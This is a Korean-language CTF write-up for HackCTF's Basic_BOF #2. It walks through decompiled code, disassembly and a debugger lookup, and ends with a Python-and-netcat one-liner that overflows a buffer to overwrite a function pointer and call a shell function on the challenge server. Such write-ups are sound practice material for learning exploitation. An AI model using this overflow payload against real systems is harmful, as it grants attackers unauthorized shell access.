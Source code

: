 ```yaml
---


---
```


<h1 id="hackctfbasic_bof-2">HackCTF:Basic_BOF #2</h1>
<h2 id="section">2019-08-01</h2>
<p><code>file bof_basic2</code> 로 파일을 확인해 본다.</p>
<pre><code>bof_basic2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=620fa5ad29722b0b2f66ce8f949ec66aa57b46f3, not stripped
</code></pre>
<p><em>IDA-Hexlay</em></p>
<pre><code>int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-8Ch]
  void (*v5)(void); // [esp+8Ch] [ebp-Ch]

  v5 = (void (*)(void))sup;
  fgets(&amp;s, 133, stdin);
  v5();
  return 0;
}
</code></pre>
<p>함수 <code>fgets()</code>로 들어가는 변수의 주소는 ebp-0x8c (ebp-140)이다. 140byte지만 133byte의 제한이 걸려있다.</p>
<pre><code>0x080484f0 &lt;+35&gt;:	push   eax
0x080484f1 &lt;+36&gt;:	push   0x85
0x080484f6 &lt;+41&gt;:	lea    eax,[ebp-0x8c]
0x080484fc &lt;+47&gt;:	push   eax
0x080484fd &lt;+48&gt;:	call   0x8048350 &lt;fgets@plt&gt;
0x08048502 &lt;+53&gt;:	add    esp,0x10
0x08048505 &lt;+56&gt;:	mov    eax,DWORD PTR [ebp-0xc]
0x08048508 &lt;+59&gt;:	call   eax
</code></pre>
<p>프로그램에 system("/bin/bash") 를 호출하는 <code>shell()</code> 이라는 함수가 있다는 것을 IDA로 확인했다.<br>
또는 GDB로도 주소를 확인 할 수 있다.</p>
<pre><code>pwndbg&gt; p shell
$1 = {&lt;text variable, no debug info&gt;} 0x804849b &lt;shell&gt;
</code></pre>
<p>.</p>
<pre><code>(python -c 'print "A" * 128 + "\x9b\x84\x04\x08"'; cat) | nc ctf.j0n9hyun.xyz 3001
</code></pre>

